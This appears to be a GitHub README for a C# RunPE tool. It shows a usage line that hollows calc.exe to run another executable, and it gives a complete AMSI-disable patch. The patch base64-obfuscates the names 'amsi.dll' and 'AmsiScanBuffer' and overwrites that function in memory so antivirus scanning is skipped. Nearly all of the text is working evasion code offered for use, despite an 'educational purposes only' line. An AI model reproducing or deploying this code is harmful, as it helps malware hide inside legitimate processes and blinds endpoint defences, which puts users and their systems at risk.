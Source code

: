 # RunPE (x86/32-bit only)
For educational purposes only. Not intented for use.

Usage: 
```c#
RunPE.Run("C:\\windows\\syswow64\\calc.exe", File.ReadAllBytes("putty.exe"));
```

For a 64-bit version see: https://github.com/gigajew/Mandark

# Problems
Sometimes the program crashes with error code 0xc0000005 and I can only assume it's because of Windows DEP. Not aware of any workarounds as of this date.

# AMSI Disable patch (by Rasta Mouse)
```c#
private static string Decode(string data)
{
	return Encoding.UTF8.GetString(Convert.FromBase64String(data));
}
public static void DisableAMSI()
{
	// credits: Rasta Mouse
	uint flOld;
	IntPtr amsilib = LoadLibrary(Decode("YW1zaS5kbGw="));//"amsi.dll");
	IntPtr proc = GetProcAddress(amsilib, Decode("QW1zaVNjYW5CdWZmZXI="));//"AmsiScanBuffer");
	byte[] _64bit = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
	byte[] _32bit = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };
	if (IntPtr.Size * 8 == 64)
	{
		ReplaceCode(proc, _64bit);
	}
	else
	{
		ReplaceCode(proc, _32bit);
	}
}

private static void ReplaceCode(IntPtr location, byte[] newData)
{
	uint flOld;
	VirtualProtect(location, (uint)newData.Length, 0x40, out flOld);
	Marshal.Copy(newData, 0, location, newData.Length);
	VirtualProtect(location, (uint)newData.Length, flOld, out flOld);
}
```
